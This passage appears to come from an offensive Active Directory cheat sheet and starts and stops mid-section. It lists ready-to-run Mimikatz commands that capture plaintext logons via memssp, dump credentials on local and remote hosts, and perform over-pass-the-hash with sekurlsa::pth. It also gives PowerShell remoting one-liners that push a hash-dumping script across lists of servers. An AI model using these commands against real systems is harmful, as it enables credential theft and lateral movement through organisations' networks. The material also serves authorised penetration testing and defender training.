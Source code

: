 - mimikatz # misc::memssp
- 

#Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log

- [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
- [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

### POWERSHELL REMOTING

- Execute commands or scriptblocks

Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

- Execute scripts from files

Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content

<list_of_servers>)

- Execute locally loaded function on the remote machines

Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)

Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content

<list_of_servers>) -ArgumentList

- A function call within the script is used

Invoke-Command -Filepath C:\path\Get-PassHashes.ps1 -ComputerName (Get-Content

<list_of_servers>)

> "Stateful" commands using Invoke-Command
> 

$Sess = New-PSSession -Computername Server1

Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}

Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}

- Dump credentials on a local machine

Invoke-Mimikatz -DumpCreds

- Dump credentials on multiple remote machines

Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")

- Over pass the hash

Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:lab.domain.local

/ntlm:<ntlmhash> /run:powershell.exe"'

- Invoke Mimikatz to create a token from user

$sess = New-PSSession -ComputerName target.domain.local
